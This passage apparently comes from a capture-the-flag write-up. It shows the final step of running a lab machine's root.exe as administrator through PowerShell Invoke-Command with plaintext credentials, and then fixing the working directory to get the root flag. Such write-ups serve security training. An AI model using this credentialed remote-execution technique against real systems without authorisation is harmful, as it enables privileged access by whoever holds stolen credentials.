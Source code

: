 Ok, so I then ran the root.exe executable:

{% highlight powershell %}
$username = 'administrator'; $password = '1234test'; $pass = ConvertTo-SecureString -AsPlainText $Password -Force; $cred = New-Object System.Management.Automation.PSCredential $username, $pass; Invoke-Command -ComputerName localhost -credential $cred -ScriptBlock { \users\administrator\desktop\root.exe }

Are you trying to cheat me?
{% endhighlight %}

Sounded like I would need an extra step. I then remembered about the output of secret.exe that was giving me the current working directory, so I thought if that could be the problem. I changed the command to be in the same directory as root.exe:

<b>Note: The .\ is important.</b>

{% highlight powershell %}
$username = 'administrator'; $password = '1234test'; $pass = ConvertTo-SecureString -AsPlainText $Password -Force; $cred = New-Object System.Management.Automation.PSCredential $username, $pass; Invoke-Command -ComputerName localhost -credential $cred -ScriptBlock { set-location \users\administrator\desktop\; .\root.exe }
{% endhighlight %}

With this I got the root flag. The End.
